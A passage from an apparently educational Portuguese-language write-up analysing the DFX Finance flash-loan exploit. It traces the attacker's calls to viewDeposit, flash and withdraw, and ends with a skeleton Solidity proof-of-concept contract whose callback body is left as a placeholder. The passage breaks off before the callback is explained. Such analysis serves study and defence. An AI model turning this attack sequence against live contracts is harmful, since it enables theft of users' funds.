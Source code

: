   ![image](https://user-images.githubusercontent.com/53768199/215324532-b441691f-dae4-4bb2-aadb-7bd93d284270.png)

  E no próximo passo, o ataque usa o valor de retorno da função `viewDeposit` como um valor semelhante para a entrada da invocação da função `flash` (o valor não é exatamente o mesmo, mais detalhes depois).

  ![image](https://user-images.githubusercontent.com/53768199/215329296-97b6af11-32aa-4d0a-a7c4-019f355be04d.png)

  O atacante invoca a função `flash` no contrato vítima como o segundo passo. Podemos obter algumas informações do código:

  ![image](https://user-images.githubusercontent.com/53768199/215329457-3a48399c-e2e1-43a8-ab63-a89375fbc239.png)

  Como você pode ver, a função `flash` é semelhante ao empréstimo flash no Uniswap V2. O usuário pode pegar emprestado ativos por meio dessa função. E a função `flash` tem uma função de retorno de chamada para o usuário. O código é:
  ```solidity
  IFlashCallback(msg.sender).flashCallback(fee0, fee1, data);
  ```
  Essa invocação corresponde à função de retorno de chamada no contrato do atacante na seção de análise de rastreamento anterior. Se fizermos a verificação de hash de 4 bytes, é `0xc3924ed6`.

  ![image](https://user-images.githubusercontent.com/53768199/215329899-a6f2cc00-f2ac-49c8-b4df-38bb24663f37.png)

  ![image](https://user-images.githubusercontent.com/53768199/215329919-bbeb557d-41d0-47fb-bdf8-321e5217854e.png)

  O último passo é chamar a função `withdraw`, que irá queimar o token estável (`dfx-xidr-v2`) e retirar os ativos emparelhados (`USDC` e `XIDR`).

  ![image](https://user-images.githubusercontent.com/53768199/215330132-7b54bf35-3787-495a-992d-ac2bcabb97d9.png)

- Implementação da PoC

  Com base na análise acima, podemos implementar o esqueleto da PoC abaixo:

  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }
  
    function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        /*
        xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
        */
    }
  }
  ```
  É provável que surja a pergunta de como um atacante rouba ativos com a função `withdraw` em um empréstimo flash. Obviamente, esta é a única parte em que o atacante pode trabalhar. Agora vamos mergulhar na função de retorno de chamada:

